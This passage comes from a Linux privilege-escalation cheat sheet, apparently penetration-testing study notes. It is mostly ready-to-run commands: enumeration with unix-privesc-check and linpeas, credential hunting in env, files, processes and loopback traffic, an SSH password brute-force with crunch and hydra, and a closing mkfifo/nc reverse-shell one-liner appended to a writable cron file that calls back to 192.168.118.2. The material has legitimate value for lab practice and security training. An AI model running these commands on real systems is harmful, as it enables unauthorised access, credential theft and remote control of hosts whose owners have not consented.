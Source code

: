 ```bash
lsmod
```
Find out more about the specific module.
```bash
/sbin/modinfo [module name]
```
### Automated Enumeration
Performs a number of checks to find any system misconfigurations that can be abused for local privilege escalation.
```bash
unix-privesc-check standard > output.txt
unix-privesc-check detailed > output.txt
```
[LinEnum](https://github.com/rebootuser/LinEnum)
[Linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240818-ea81ae32)


## Exposed Confidential information
### User Trails
List environment variables
```bash
env
```
To confirm that we are dealing with a permanent variable:
```bash
cat ~/.bashrc
```
Generate a custom wordlist(Length 6,start with 'Lab'):
```bash
crunch 6 6 -t Lab%%% > wordlist
```
Use hydra to bruteforce the ssh:
```bash
hydra -l eve -P wordlist  192.168.50.214 -t 4 ssh -V
```
Search for `password`:
```bash
find . -type f -name "*.xml" -exec grep -ri "password" {} +
```
### Service Footprints
Constantly inspecting the running processes.
```bash
watch -n 1 "ps aux | grep pass"
```
Verify whether we have rights to capture network traffic:
Let's try to capture traffic in and out of the loopback interface.(Need `sudo`)
```bash
sudo tcpdump -i lo -A | grep "pass"
```
## Abusing File permissions
### Cron Jobs
We could also inspect the cron log file (**/var/log/cron.log**) for running cron jobs:
```bash
grep "CRON" /var/log/syslog
ls -lah /etc/cron*
crontab -l
cat /etc/crontab
```
inspect the content of file, check the permission of file.
if have `write permission`, trigger reverse shell:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> [file]
```